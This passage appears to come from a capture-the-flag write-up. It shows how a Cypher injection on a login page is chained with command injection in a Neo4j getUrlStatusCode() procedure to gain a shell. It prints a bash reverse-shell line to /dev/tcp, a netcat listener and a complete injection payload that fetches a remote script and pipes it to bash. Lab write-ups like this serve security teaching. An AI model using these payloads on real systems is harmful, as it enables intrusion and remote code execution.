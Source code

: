 Inspecting the code we can get an idea of how the requests are processed by the `getUrlStatusCode()` function. We can see that `/bin/sh` is used to fetch the response (HTTP status code) by executing `curl` followed by the URL.

We can inspect in detail the requests and responses using **BurpSuite's** Proxy Interceptor.

![alt text](images/image-6.png)

We can see that the authentication process is handled by the **/api/auth** endpoint, suggesting that we may be able to forge custom Cypher SQL Injections and exploiting the command execution vulnerability found in `getUrlStatusCode()` to execute a reverse shell in order to gain access.

---

## Exploitation

After several attempts trying to figure out the syntax of Neo4j's cypher, we finally found the correct way to structure the queries and execute commands.

We created a local Python server using `python -m http.server` and created a bash script that contains our reverse shell by executing the following command `bash -i &> /dev/tcp/10.10.14.48/8888 0>&1`. Next we opened a listener for the port we want our reverse shell to communicate by using netcat. `nc -lvnp 8888`

Next we submitted the following query to the Login page as an Cypher Injection 
`admin' return h.value as value UNION CALL custom.getUrlStatusCode("http://127.0.0.1;curl 10.10.14.48:8000/reverse_shell.sh|bash;") YIELD statusCode AS value RETURN value;//` that granted us a reverse shell to the system.

![alt text](images/image-9.png)

The results were positive by receiving response on our listener.

![alt text](images/image-8.png)

---